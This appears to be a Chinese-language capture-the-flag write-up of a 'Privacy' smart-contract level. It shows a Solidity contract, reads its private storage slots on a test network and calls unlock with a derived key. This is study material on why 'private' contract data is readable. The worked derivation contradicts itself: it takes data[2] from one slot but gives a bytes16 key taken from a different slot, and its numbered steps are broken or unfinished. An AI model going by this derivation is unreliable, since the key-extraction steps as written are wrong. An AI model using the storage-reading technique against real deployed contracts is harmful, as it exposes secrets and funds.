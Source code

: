 ```yaml
---
layout: post
title: Privacy
---
```


# Privacy
合约的隐私性
```solidity
pragma solidity ^0.4.18;

contract Privacy {

  bool public locked = true;
  uint256 public constant ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  function Privacy(bytes32[3] _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

### 代码分析
只要传入正确的key后，即可解锁账号；需要通过分析storage来获取data的具体数据，可以通过eth.getStorageAt(address, index)
来获取storage的具体类型。  
例如：  
instance：0x7ecbfb9ef1497373de4fc8ecb84801bea9f6e872（在ropsten测试链上）
storage[0]:0x0000000000000000000000000000000000000000000000000000007d00ff0a00
storage[1]:0x8e7cd92580800357d3a6f7c90a899a674ba3301ec216e1ff0cf7146d11c3126a
storage[2]:0xb0843069456c2e4da3fbfed16c35ad1c4f5658e9da1d13018db91025716a75fe
storage[3]:0x3f725ed1e0c50cd58368edf185a9080c0745b62de7698668cfdd16f902b19be2
```solidity
bool public locked = true;
uint256 public constant ID = block.timestamp;
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(now);
bytes32[3] private data;
```
1. ID为constant，存于栈上；
2. locked=true; 为
2. flattening=10; 为0x0a
3. denomination=255; 为0xff
0x
3f725ed1e0c50cd58368edf185a9080c
0745b62de7698668cfdd16f902b19be2
推出data[2]为0x3f725ed1e0c50cd58368edf185a9080c0745b62de7698668cfdd16f902b19be2，转换为
bytes16为0x4f5658e9da1d13018db91025716a75fe00000000000000000000000000000000；
所以传入的key应该为0x4f5658e9da1d13018db91025716a75fe00000000000000000000000000000000

### 攻击方法
1. 调用unlock(key)；unlock("0x4f5658e9da1d13018db91025716a75fe")
